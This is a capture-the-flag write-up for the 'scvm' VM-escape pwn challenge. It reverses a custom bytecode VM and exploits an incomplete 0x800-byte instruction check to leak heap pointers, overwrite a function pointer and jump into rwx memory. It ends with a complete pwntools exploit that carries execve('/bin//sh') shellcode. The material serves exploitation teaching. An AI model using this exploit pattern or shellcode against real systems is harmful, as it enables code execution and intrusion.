 # scvm

> huwangbei2019 offline
> An easy VM challenge. Compared with the system-level virtual machine topic, this kind of topic can be understood as customizing a CPU instruction set, and realizing the emulator of the instruction set, not the virtualization at the hardware system level.

## Reverse
### VM Struct
It is really easy to know the struct of VM by analyzing the function as follows.

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/VMEscape/scvm/index_files/c09dcfb1-07c7-4ee7-a2bb-260d11d3530b.png)

```
00000000 vm_t            struc ; (sizeof=0x20, mappedto_8)
00000000 reg_cnt         dd ?
00000004 fun_cnt         dd ?
00000008 regs            dq ?
00000010 funs            dq ?                    ; base 2
00000018 mem             dq ?
00000020 vm_t            ends
00000020
```

### Instruction Type
Instructions are four byte long and byte-aligned.
```
[fun_id] [val1] [val2] [val3]
```
```fun_id``` is used to know which function should be called.

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/VMEscape/scvm/index_files/25a2abec-51fd-4f14-a4ea-8383954a99f7.png)

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/VMEscape/scvm/index_files/a6b6ef5e-0dc4-4004-9779-ea45af95f053.png)

For example, instruction **add** use 3 vals and do the operation ```regs[val1] = regs[val2] + regs[val3]```.

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/VMEscape/scvm/index_files/0e8ca81c-af65-45e0-b5d9-3fa11d80db64.png)

### Functions
10 functions are supported, but function **lea** is not useful.
```
exit: exit(0)
add: regs[val1] = regs[val2] + regs[val3]
sub: regs[val1] = regs[val2] - regs[val3]
mul: regs[val1] = regs[val2] * regs[val3]
div: regs[val1] = regs[val2] / regs[val3]
mod: regs[val1] = regs[val2] % regs[val3]
mov: regs[val1] = val2
print: print(reg[val3])
lea: regs[val1] = (uint32_t)(vm->mem + val2)
mov2mem: *(byte *)(vm->mem + val2) = regs[val1]
```

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/VMEscape/scvm/index_files/e406537c-93e3-43f5-8f20-778b89c58aa6.png)

## Vulnerability
### Incomplete Checking
We can input **0x1000** bytes as **vm->mem**. However, the check will only check 0x800 bytes, so we can bypass this check if we input malicious instructions after 0x800 bytes.

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/VMEscape/scvm/index_files/52293c95-f348-4cbf-a676-33b2488c01f1.png)

### self-modifying code
It is obvious that instruction ```mov2mem``` can modify ```*(byte *)(vm->mem + val2)``` to the value of ```regs[val1]```. But it does not check the value of val2.
So, we can modify the value of a bytes in memory (0 ~ 0xff) to the value we want, static check makes no sense.

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/VMEscape/scvm/index_files/41c0ff76-e9a2-472f-829b-b7064c510bca.png)

## Exploit
It is enough to use **Incomplete Checking** for exploiting. Firstly, we input enough bytes (more than **0x800**) to bypass static checking.

```
payload = gen_sub(0x0, 0x0, 0x0) * (0x800 / 4)
```

### Leak
We cannot leak address of ```vm->mem``` by original **print** like operations, because we can only input once. So, we need to leak ```vm->mem``` to a reg of this vm and use the instructions integrated into this vm (```sub``` or ```add``` is great).

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/VMEscape/scvm/index_files/c1f81533-e65a-4c70-9be3-74b9cf19bb40.png)

We the vm is inited, heap chunk for **regs** and **funcs** are allocated and then the struct **vm** is allocated, too. We can use **sub** to get the value of ```regs[0~0xff]```. So, leak is done.
We can also use this trick to modify the value of ```funs[i]``` to the one we like.
However, remember that the operand size is **32 bits**, not 64 bits. The arch of this executable elf is **amd64**. So, we need to modify the value of a function ptr twice (low 32 bits and high 32 bits).

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/VMEscape/scvm/index_files/0a810f30-4086-4f80-9d02-06c30f63a002.png)

### Shellcode
It is easy that the memory allocated for vm is marked as **rwx**, so we just need to set ```rip``` to the address of our vm mem.

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/VMEscape/scvm/index_files/3f9ecd99-4ca4-4a1b-960a-619406318e09.png)

### EXP
```
from pwn import *

local=1
pc='./scvm'
aslr=True
context.log_level=True
context.arch = "amd64"
context.word_size = 64
context.os = "linux"
context.endian = "little"

if local==1:
    #p = process(pc,aslr=aslr,env={'LD_PRELOAD': './libc.so.6'})
    p = process(pc,aslr=aslr)
    gdb.attach(p)
else:
    remote_addr=['172.16.9.45', 17730]
    p=remote(remote_addr[0],remote_addr[1])

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr):
    print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))

def gen_print(i, j=0, k=0):
    s = ""
    s += chr(7)
    s += chr(i)
    s += chr(j)
    s += chr(k)
    return s

def gen_mov(i, j, k = 0):
    s = ""
    s += chr(6)
    s += chr(i)
    s += chr(j)
    s += chr(k)
    return s

def gen_sub(i, j, k):
    s = ""
    s += chr(2)
    s += chr(i)
    s += chr(j)
    s += chr(k)
    return s

def gen_add(i, j, k):
    s = ""
    s += chr(1)
    s += chr(i)
    s += chr(j)
    s += chr(k)
    return s



def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

if __name__ == '__main__':
    payload = gen_sub(0x0, 0x0, 0x0) * (0x800 / 4)

    payload+= gen_mov(0,0x80)
    payload+= gen_sub(2, 0x2e + 4, 2)
    payload+= gen_sub(3, 0x2f + 4, 3)

    for i in range(0, 0x12):
        payload+= gen_add(2, 0, 2)

    payload+= gen_sub(0x22, 0x22, 0x22)
    payload+= gen_sub(0x23, 0x23, 0x23)

    payload+= gen_sub(0x22, 0x2, 0x22)
    payload+= gen_sub(0x23, 0x3, 0x23)

    payload+= gen_print(0x10)

    payload = payload.ljust(0x900, "\x00")

    buf =  ""
    buf += "\x6a\x3b\x58\x99\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73"
    buf += "\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x57\x48\x89"
    buf += "\xe6\xb0\x3b\x0f\x05"

    payload+= buf

    #payload = payload.ljust(0xa0, "\x00")
    #payload+= p32( 0x11DA - 0x10A0)

    sn(payload)
    p.interactive()

```